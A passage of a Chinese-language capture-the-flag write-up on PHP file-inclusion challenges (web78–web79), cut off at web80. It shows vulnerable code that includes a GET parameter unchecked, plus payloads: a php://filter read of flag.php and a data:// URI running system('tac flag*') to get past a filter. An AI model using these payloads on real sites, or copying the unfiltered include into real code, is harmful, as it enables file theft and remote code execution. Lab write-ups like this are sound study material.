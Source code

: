 文件包含系列开始

### web78

网站源码为：

```
<?php



if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

没有任何的过滤

可见对于一个名为“file”的GET请求，会以include的形式去执行，那这个地方尝试使用php伪协议

payload：?file=php://filter/convert.base64-encode/resource=flag.php

再一次获得flag.php的base64编码

解码即可得到flag



### web79

这一次出现了过滤，会将php自动转换为 ???从而使php伪协议失效

换别的协议吧，比如说data://,file://。

```
<?php



if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

构造payload:?file=data://text/plain,<?=system('tac flag*');?>

原理：利用data协议直接让其执行命令。



### web80
